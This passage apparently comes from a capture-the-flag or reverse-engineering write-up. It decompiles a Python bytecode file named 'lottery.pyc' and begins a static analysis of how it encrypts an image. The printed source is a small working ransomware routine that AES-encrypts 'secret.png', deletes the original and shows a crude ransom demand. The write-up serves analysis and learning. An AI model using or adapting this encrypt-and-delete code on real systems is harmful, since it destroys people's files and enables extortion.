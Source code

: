 ```
$ uncompyle6 lottery.pyc 
```

```python
# uncompyle6 version 3.9.0
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.8.10 (default, Nov 22 2023, 10:22:35) 
# [GCC 9.4.0]
# Embedded file name: lottery.py
import os, tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile(mode='w+b', delete=False)
    fp.write(key)
    return key


def encrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, 'rb') as (file):
        data = file.read()
        padded_data = pad(data, AES.block_size)
        cipher = AES.new(key, AES.MODE_CBC, iv)
        encrypted_data = cipher.encrypt(padded_data)
    file.close()
    encrypted_file_path = file_path + '.enc'
    with open(encrypted_file_path, 'wb') as (encrypted_file):
        encrypted_file.write(encrypted_data)
    os.remove(file_path)


if __name__ == '__main__':
    key = generate_key()
    file_path = 'secret.png'
    encrypt_file(file_path, key)
    print('Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!')
# okay decompiling lottery.pyc
```

### *Everything is open source if you can reverse engineer.*

Yeah, it's very true. So I did continue with static analysis by analyzing how the secret.png was being encrypted.

Let's break the code...

```py
def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile(mode='w+b', delete=False)
    fp.write(key)
    return key
```
